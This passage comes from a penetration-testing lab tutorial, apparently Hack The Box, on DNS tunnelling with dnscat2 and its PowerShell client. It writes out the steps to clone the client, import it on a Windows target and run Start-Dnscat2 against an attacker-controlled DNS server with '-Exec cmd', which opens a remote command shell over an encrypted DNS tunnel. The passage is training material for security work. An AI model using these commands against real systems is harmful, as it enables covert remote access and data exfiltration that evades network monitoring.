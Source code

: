 ```shell
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

#### Cloning dnscat2-powershell to the Attack Host

```shell
git clone https://github.com/lukebaggett/dnscat2-powershell.git

```

Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.

#### Importing dnscat2.ps1

```powershell
PS C:\htb> Import-Module .\dnscat2.ps1

```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```powershell
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

```

We must use the pre-shared secret ( `-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

#### Confirming Session Establishment

```shell
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>

```

We can list the options we have with dnscat2 by entering `?` at the prompt.

#### Listing dnscat2 Options

```shell
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows

```